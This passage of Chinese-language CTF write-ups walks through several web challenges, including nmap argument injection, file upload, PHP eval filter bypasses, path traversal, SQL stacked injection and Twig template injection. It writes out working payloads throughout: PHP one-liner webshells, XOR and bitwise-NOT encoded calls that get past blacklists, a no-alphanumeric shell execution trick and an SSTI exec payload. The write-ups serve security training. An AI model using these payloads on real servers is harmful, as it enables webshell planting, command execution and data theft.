`'127.0'\\''-oG\'`这样的话\先被转义了，然后其后面的单引号就与下一个单引号合并变成了’‘也就可以理解为一个括了一个空值，也就等于啥也没有，就可以被忽略了，这样最后的单引号没有配对的所以也会被转义最后变成：‘127.0’\ -oG’也就是127.0\ -oG’

也就是由一开始的形态127.0’ -oG变成了127.0\ -oG’也就是说单引号会被去掉变成\

### 解法一：

利用nmap参数-iL来读取/flag然后利用-oN将扫描结果打印到一个可读文件中，然后访问即可

```
' -iL /flag -oN flag.txt ' 
```

访问flag.txt即可

### 解法二：

利用nmap的-oG参数将命令和结果写入一个一句话木马：

由于php被过滤所以需要用<?=来bypass

```
' <?= @eval($_POST[a]);?> -oG shell.phtml ' 
```

然后火狐传入post参数：

a=system(‘cat /flag’);

## 2017-赛客夏令营-Web-Uploadddd

首先利用后台泄露小字典fuzz一波，得到

打开虚拟机vim -r index.php.swp恢复一下得到源代码：



代码审计：

时间戳+0-999任意数字+.php构成上传的文件名

bypass：

抓包得到时间戳：



20210509025638+0-999+.php

利用攻击版块爆破0-999得到路径：



uploads/20210509032726948.php

蚁剑整上：



## 2021-第四届红帽杯网络安全大赛-Web-find_it

备份泄露字典扫完以后发现了robots.txt响应为200，得到提示：1ndexx.php

无法直接访问，继续尝试/.1ndexx.php.swp，得到源码：

```
<?php

#Really easy...

$file=fopen("flag.php","r") or die("Unable 2 open!");

$I_know_you_wanna_but_i_will_not_give_you_hhh = fread($file,filesize("flag.php"));

$hack=fopen("hack.php","w") or die("Unable 2 open");

$a=$_GET['code'];

if(preg_match('/system|eval|exec|base|compress|chr|ord|str|replace|pack|assert|preg|replace|create|function|call|\~|\^|\`|flag|cat|tac|more|tail|echo|require|include|proc|open|read|shell|file|put|get|contents|dir|link|dl|var|dump/',$a)){
	die("you die");
}
if(strlen($a)>33){
	die("nonono.");
}
fwrite($hack,$a);
fwrite($hack,$I_know_you_wanna_but_i_will_not_give_you_hhh);

fclose($file);
fclose($hack);
?> 
```

[fread函数](https://www.runoob.com/php/func-filesystem-fread.html)

代码审计到[fwrite函数](https://www.runoob.com/php/func-filesystem-fwrite.html)，而且是将get传出的参数写进去，可以考虑一句话木马，同时传入的参数不能大于33个字符，同时还会将flag.php中的内容读写到hack.php，解法一：没有过滤Eval，

```
<?php @Eval($_POST['hack']);?> 
```

然后蚁剑连接即可：xxx.xxx.xxx.xxx/hack.php

解法二：

写入

```
<?php show_source(__FILE__);?> 
```

## 2016-西普杯京津冀信息安全挑战赛-Web-web01

robots.txt文件泄露，需要先将re2给搞出来

得到用户名：admin密码：328du919sud9

登陆后显示Flag is Not Here!

抓包对is_login进行修改，将0变成1



## 2016-西普杯京津冀信息安全挑战赛-Web-web02

字典结合burp进行半自动化扫描一把，发现robots.txt得到部分信息：

Powered By Copyright 2012 - 2016 Vwins All Right Reserved.

得知是Vwins cms的环境，在该环境下存在一个GET方式添加"allowed=*"绕过上传限制的漏洞。

另外还有一点后端的限制，需要修改一下文件的上传类型



## 2020-第五空间智能安全大赛-web-hate-php

### 知识拓展：

[无字母数字webshell之提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

其中包括了命令执行的新方式

### 题目：

```
<?php
error_reporting(0);
if(!isset($_GET['code'])){
    highlight_file(__FILE__);
}else{
    $code = $_GET['code'];
    if (preg_match('/(f|l|a|g|\.|p|h|\/|;|\"|\'|\`|\||\[|\]|\_|=)/i',$code)) {
        die('You are too good for me');
    }
    $blacklist = get_defined_functions()['internal'];
    foreach ($blacklist as $blackitem) {
        if (preg_match ('/' . $blackitem . '/im', $code)) {
            die('You deserve better');
        }
    }
    assert($code);
} 
```

$blacklist的值是所有的内置函数

### 解题思路：

#### 方法一：

1.利用异或来绕过：在php中两个字符串进行异或操作以后，得到的还是一个字符串

可以利用如下php脚本来实现：

```
<?php
$payload = 'phpinfo()';
$length = strlen($payload);
$a = '';
$b = '';
$flag = 0;
echo '<br>';
for ($l = 0; $l < $length; $l++) {
    $flag=0;
    for ($i = 128; $i < 256; $i++) {
        for ($j = 128; $j < 256; $j++) {
            if ((chr($i) ^ chr($j)) === $payload[$l]) {
                echo urlencode(chr($i));
                $a=$a.urlencode(chr($i));
                echo '^';
                echo urlencode(chr($j));
                $b=$b.urlencode(chr($j));
                echo '=' . $payload[$l];
                echo "<br>";
                $flag=1;
                break;
            }
        }
        if($flag===1){
            break;
        }
    }
}

echo $a.'^'.$b; 
```

得到：

```
%80^%F0=p
%80^%E8=h
%80^%F0=p
%80^%E9=i
%80^%EE=n
%80^%E6=f
%80^%EF=o
%80^%A8=(
%80^%A9=)
%80%80%80%80%80%80%80%80%80^%F0%E8%F0%E9%EE%E6%EF%A8%A9 
```

然后结合php7的新的执行动态函数的方法也就是(‘phpinfo’)()来实现命令执行

也就是可以继续利用(system)(ls)来继续查看当前的目录中的内容

然后利用(show_source)(flag.php)

(%80%80%80%80%80%80%80%80%80%80%80<sup>%F3%E8%EF%F7%DF%F3%EF%F5%F2%E3%E5)(%80%80%80%80%80%80%80%80</sup>%E6%EC%E1%E7%AE%F0%E8%F0)

#### 方法二：

此方法只适用于php7

```
<?php
echo urlencode(~'highlight_file');  //%97%96%98%97%93%96%98%97%8B%A0%99%96%93%9A
echo "\n";
echo urlencode(~'flag.php'); //%99%93%9E%98%D1%8F%97%8F
?> 
```

利用取反来实现命令执行，绕过正则匹配的方法与上面相同，使用亮高打印flag：(highlight_file)(flag.php)

(<sub>%97%96%98%97%93%96%98%97%8B%A0%99%96%93%9A)(</sub>%99%93%9E%98%D1%8F%97%8F)

## 2021-第五届世界智能大会-「津门杯」国际网络安全创新大赛-Web-hate_php

### 题目：

```
<?php
error_reporting(0);
if(!isset($_GET['code'])){
    highlight_file(__FILE__);
}else{
    $code = $_GET['code'];
    if(preg_match("/[A-Za-z0-9_$@]+/",$code)){
        die('fighting!'); 
    }
    eval($code);
}
?> 
```

此题目过滤了所有的字母和数字以及下划线$@符号，这种无敌的过滤，只有神才能做出来，欲做此题，先看[p神的文章](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

### 解题思路：

1.利用.来执行脚本

2.利用linux的通配符来实现匹配文件的名字

### 解题：

构造post文件上传的数据包用来上传文件：将以下代码在本地构造，然后浏览器运行再抓包

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://46230c96-8291-44b8-a58c-c133ec248231.chall.ctf.show/" method="post" enctype="multipart/form-data">

    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html> 
```

写脚本：

```
#!/bin/sh
cat /flag 
```

构造poc：

```
?code=?><?=`. /???/????????[?-[]`;?> 
```

## 2018-HCTF-Web-warmup

访问source.php

```
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br>";
    }  
?> 
```

访问hint.php：

flag not here, and flag in ffffllllaaaagggg

利用的是文件包含漏洞：

利用source中的include，来将flag.php在source.php中显示出来

```
?file=source.php?/../../../../ffffllllaaaagggg 
```

然后进行两次URL编码:

```
?file=source.php%253F/../../../../ffffllllaaaagggg 
```

注意细节：/…/…/…/…/ffffllllaaaagggg

## 强网杯-2019-Web-高明的黑客

给了一大堆php后门文件，要用脚本去跑可以用的文件

木马：xk0SzyKwfzw.php?Efa5BVG=cat /flag

Efa5BVG

## SUCTF-2019-Web-easysql

### 知识点：

利用mysql的内置变量将||的性质改变为字符串的连接符，而非或运算符

堆叠注入

### 操作：

源码：

```
select $_GET['query'] || flag from flag 
```

解法一：

```
1;set sql_mode=PIPES_AS_CONCAT;select 1 
```

相当于：select 1,flag from Flag

解法二：

```
*,1 
```

相当于select *,1||flag from Flag 取得全部数据

## BJDCTF-2020-web-cookie is so subtle!



利用这个方法来判断模板注入的哪个模板，然后返回值为49所以是Twig，如果是7777777则是Jinja2

然后搜索一下twig的模板注入

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}} 
```